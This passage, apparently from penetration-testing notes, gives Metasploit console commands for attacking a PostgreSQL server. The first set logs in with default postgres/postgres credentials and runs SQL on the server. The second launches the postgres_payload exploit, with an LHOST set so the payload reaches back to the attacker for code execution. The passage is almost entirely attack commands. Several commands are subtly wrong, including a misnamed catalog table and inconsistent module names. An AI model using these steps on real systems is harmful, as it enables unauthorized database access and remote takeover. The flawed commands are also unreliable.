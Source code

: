 ![](../images/connection_to_postgres_server_using_psql_client.png)
**OR we can use a metasploit module to execute the sql command over the postgres server**
```
msfconsole -q
msf > search admin/postgres
msf > use auxiliary/scanner/admin/postgres
msf auxiliary(scanner/admin/postgres) > Show options
msf auxiliary(scanner/admin/postgres) > set RHOST 192.168.1.103
msf auxiliary(scanner/admin/postgres) > set Username postgres
msf auxiliary(scanner/admin/postgres) > set password postgres
msf auxiliary(scanner/admin/postgres) > set Sql 'Select datname from pg_databases;'
msf auxiliary(scanner/admin/postgres) > run
```
##### linux payload Execution Vulerability
```
msfconsole -q
msf > search postgres_payload
msf > use exploit/linux/postgres/postgres_payloads
msf > exploit(linux/postgres/postgres_payload) > show options
msf > exploit(linux/postgres/postgres_payload) >set RHOSTS 192.168.1.103
msf > exploit(linux/postgres/postgres_payload) > set LHOST 192.168.1.101
msf > exploit(linux/postgres/postgres_payload) > run
```